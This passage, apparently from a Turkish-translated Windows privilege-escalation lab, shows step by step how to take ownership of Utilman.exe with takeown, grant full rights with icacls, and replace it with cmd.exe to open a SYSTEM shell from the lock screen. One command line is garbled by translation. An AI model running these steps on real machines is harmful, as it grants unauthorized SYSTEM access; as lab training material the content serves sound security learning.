 Utilman'ı değiştirmek için aşağıdaki komutla onun sahipliğini alarak başlayacağız:

    C:\> takeown /f C:\Windows\System32\Utilman.exe

    SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".

Bir dosyanın sahibi olmanın mutlaka o dosya üzerinde yetkilere sahip olduğunuz anlamına gelmediğine dikkat edin; ancak dosyanın sahibi olarak kendinize ihtiyacınız olan tüm ayrıcalıkları atayabilirsiniz. Kullanıcınıza utilman.exe üzerinde tam izin vermek için aşağıdaki komutu kullanabilirsiniz:
Komut istemi

C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
işlenen dosya: Utilman.exe
1 dosya başarıyla işlendi; 0 dosya işlenemedi

        

Bundan sonra utilman.exe'yi cmd.exe'nin bir kopyasıyla değiştireceğiz:
Komut istemi

C:\Windows\System32\> cmd.exe'yi kopyalayın utilman.exe
        1 dosya kopyalandı.

        

Utilman'ı tetiklemek için ekranımızı başlat düğmesinden kilitliyoruz.

Ve son olarak utilman.exe'yi SYSTEM ayrıcalıklarıyla çalıştıran "Erişim Kolaylığı" butonuna tıklayarak ilerleyin. Bunu cmd.exe kopyasıyla değiştirdiğimiz için SYSTEM ayrıcalıklarına sahip bir komut istemi alacağız:

![privesc4.png](img/privesc4.png)
